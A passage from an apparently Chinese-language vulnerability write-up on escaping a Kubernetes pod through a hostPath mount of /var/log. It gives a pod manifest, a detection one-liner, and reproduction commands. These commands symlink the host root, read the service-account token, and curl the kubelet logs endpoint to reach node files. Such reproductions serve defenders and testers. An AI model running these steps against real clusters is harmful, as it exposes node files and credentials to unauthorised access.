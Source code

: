 ```yaml
  serviceAccountName: logger
  containers:
  - name: escaper
    image: danielsagi/kube-pod-escape
    volumeMounts:
    - name: logs
      mountPath: /var/log/host
  volumes:
  - name: logs
    hostPath:
      path: /var/log/
      type: Directory
```

# 0x02 漏洞检测

前提是处于 k8s 环境下，漏洞检测才有意义

```bash
find / -name lastlog 2>/dev/null | wc -l | grep -q 3 && echo "/var/log is mounted." || echo "/var/log is not mounted."
```

# 0x03 漏洞复现

进入容器

```bash
kubectl exec --stdin --tty escaper -- /bin/bash
```

这里的 /var/log 目标挂载到了 /var/log/host 下，创建软链接

```bash
cd /var/log/host
ln -s / ./root_link
```

这时就可以访问到 node 节点上的文件了

```bash
token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -k https://172.17.0.1:10250/logs/root_link/ -H "Authorization: Bearer $token"
```

   <br>

<img width="1000" src="/img/1650013099.png"></br>

